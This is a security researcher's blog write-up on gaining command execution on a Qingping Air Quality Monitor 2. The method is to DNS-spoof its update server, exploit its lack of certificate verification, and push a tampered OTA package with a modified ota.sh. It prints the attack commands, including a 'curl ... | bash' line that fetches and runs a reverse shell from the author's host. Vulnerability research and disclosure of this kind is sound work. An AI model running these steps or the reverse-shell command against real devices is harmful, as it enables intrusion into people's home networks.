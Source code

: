 ```yaml
---
layout: single
title: Hacking the Qingping Air Quality Monitor 2
date: 2025-08-13
classes: wide
header:
  teaser: /assets/images/qingping/1.jpeg
tags:
  - Exploit-Dev
  - Penetration Testing
  - IoT
---
```


I recently acquired a [Qingping Air Quality Monitor 2](https://www.qingping.co/air-monitor-2/overview) for monitoring indoor air quality. While I’ve been happy with the product, I’m inherently distrustful of IoT devices—especially those that connect to my home’s Wi-Fi network. So, I set out to investigate its functionality with the end goal of obtaining some form of command execution.

## Recon

Running a basic port scan on the device revealed that only port 53 was open, running `dnsmasq 2.85`:

![](/assets/images/2.png)

A quick search for this version shows a [2022 CVE](https://www.cvedetails.com/cve/CVE-2022-0934/) for a denial-of-service bug. However, this wasn’t of interest here.

Next, I wanted to see what web requests the device makes when connected to the internet. On my home network I use NextDNS, which offers functionality similar to Pihole (though any DNS logging solution would work). Once connected to Wi-Fi, the Qingping device sent several requests to the `*.cleargrass.com` domain.

As a web pentester, I immediately wanted to intercept and inspect these HTTP requests. To do this, I needed to MITM the device’s traffic. Fortunately, NextDNS (or Pihole) lets you add custom DNS entries, so I could map `*.cleargrass.com` to my laptop’s IP address and redirect traffic there. If your network doesn’t have this feature, [bettercap](https://www.bettercap.org/) can perform DNS spoofing.

![](/assets/images/3.png)

Starting a netcat listener on port 443 confirmed that HTTPS traffic for `*.cleargrass.com` now hit my laptop. The next challenge was intercepting the HTTPS requests. For this, I quickly vibe coded a small Python HTTPS server that proxies requests to Burp Suite on `127.0.0.1:8080`. The script is on my GitHub repo for this post.

First, generate an SSL certificate:
```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes -subj "/CN=localhost"
```

Next, run the HTTPS server script with Burp Suite listening. 

```
sudo python3 https_tap.py --addr 192.168.1.186 --port 443 --cert cert.pem --key key.pem
```

Great, we are successfully able to intercept HTTP requests generated by the Qingping device. Interestingly, the device continues to function normally while being MITM'd, which potentially indicates that SSL certificate verification is disabled. One would expect that some sort of certificate pinning would be enforced to avoid this scenario.

![](/assets/images/4.png)

Note: Since we’ve remapped DNS for `*.cleargrass.com`, you’ll need to restore correct DNS resolution on your laptop so it can forward requests. One way is to temporarily set your DNS to `8.8.8.8` instead of NextDNS/Pihole. Alternatively, set up an SSH SOCKS proxy and configure Burp Suite to use it.

## System Update Functionality

With minimal exposed ports, the system update mechanism seemed the most promising attack surface. Within the device Settings > System Update, one can instruct the device to check for updates. The relevant HTTP request and response are shown below (note: at the time of writing this software version `4.5.6_0156` was the lastest stable version).

![](/assets/images/5.png)

However, if we modify the outbound HTTP request to advertise a lower version, let's say `4.5.6_0155`, the web server responds with instructions to update the device.

![](/assets/images/6.png)

The HTTP response contains some key information. It tells the device a new version is available, it provides the software update's MD5 hash, the software update's URL location, and a brief description of the update. The next logical step is to inspect this software update package. The device then issues a request to the URL described in the prior HTTP request. This request and response are shown below:


![](/assets/images/8.png)

One interesting thing to note is that the ETag header contains the MD5 hash of the software update, which is also included in the GET request path.

Downloading and extracting the ZIP file reveals a certificate, several Bash scripts, another ZIP file, and a Linux ELF binary. Given that the device reboots after updating, the `ota.sh` script is likely executed during the update process.



![](/assets/images/7.png)

At this point, the attack path is clear: intercept the update process and deliver a modified package.

## Crafting our Malicious Update

As previously discussed, `ota.sh` seems like a good candidate to insert our own Bash commands. Let's try a `curl` command to a web server we control to see if these commands will be execution upon updating the software.

![](/assets/images/9.png)

Next we will also need to update the file `md5` with the new MD5 hash of `ota.sh`, below is a Bash command to acheive this:
```bash
rm -f md5
for f in *; do
  [ "$f" = "md5" ] && continue
  [ -f "$f" ] || continue
  md5 -q "$f" | awk -v n="$f" '{printf "%s  %s\n",$1,n}' >> md5
done
```

Next we can zip everything up with a zip command: `zip -X -9 -q -r ../malicious_update.zip .` 

Great, now we have crafted a malicious software update with an added Bash command. Once we supply this update to the device we should see a GET request to our web server.

## Delivering the Malicious Update
Since we can intercept HTTP requests and responses to the device, it is trivial to supply our own .zip file in the HTTP resposne to the update request. However, as discused above there are a few additional pieces of information required in the HTTP response headers, such as the MD5 hash. To assist with this, I once again vibe coded a brief script that handles all the math and delivers the proper response.

The attack flow:
1. DNS spoof the `*.cleargrass.com` domain
2. Respond to the check update request with a new update
3. Replace the system update zip file with our own malicious zip

Let's see it in action. If all goes well we should see a curl request on our web server to /qingping. Starting the python HTTPS server:
```
 sudo python3 zip_supply.py --addr 192.168.1.186 --port 443 --cert cert.pem --key key.pem --zip-file ../malicious_update.zip
 ```

 On the device, initiate a system update. We can see the request come through to our fake update server.

 ![](/assets/images/11.png)

 After a few moments we see the HTTP request to our web server. Nice! 

 ![](/assets/images/12.png)

From here, obtaining a reverse shell is trivial. I personally had success modifying the shell command in `ota.sh` to `curl https://poc.cinzinga.com/qingping | bash` where the file `qingping` hosted a reverse shell.

 ![](/assets/images/13.png)

 ## Further Research
The Qingping Air Quality Monitor also integrates with a mobile app, which could be another interesting target. The device’s firmware contains numerous binaries that manage its functions. Analyzing these could uncover deeper vulnerabilities. 